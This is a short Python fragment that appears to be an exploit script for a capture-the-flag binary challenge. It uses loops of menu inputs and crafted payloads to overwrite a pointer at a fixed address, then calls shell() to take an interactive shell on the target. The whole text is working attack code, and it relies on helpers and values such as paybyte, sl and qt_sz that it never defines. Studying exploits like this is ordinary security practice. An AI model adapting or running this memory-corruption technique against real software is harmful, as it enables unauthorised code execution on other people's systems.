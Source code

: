 ```py
paybyte(f"1\n4199463".encode())
sl(payload)
paybyte(f"4".encode())
sl(payload)
for i in range(qt_sz-3-8):
    #paybyte(f"1\n4199463".encode())
    paybyte(f"4\n".encode())
    sl(payload)

for i in range(100022-qt_sz-7-4):
    paybyte(f"1\n4660".encode())
    sl(payload)


vec_new = 0x00405050
sl(f"1\n{str(vec_new-8)}".encode())
sl(f"1\n{str(0)}".encode())
sl(f"1\n{str(vec_new)}".encode())
sl(f"1\n{str(0)}".encode())
sl(f"1\n{str(vec_new+16)}".encode())
sl(f"1\n{str(0)}".encode())
sl(f"1\n{str(0)}".encode())

shell()

```
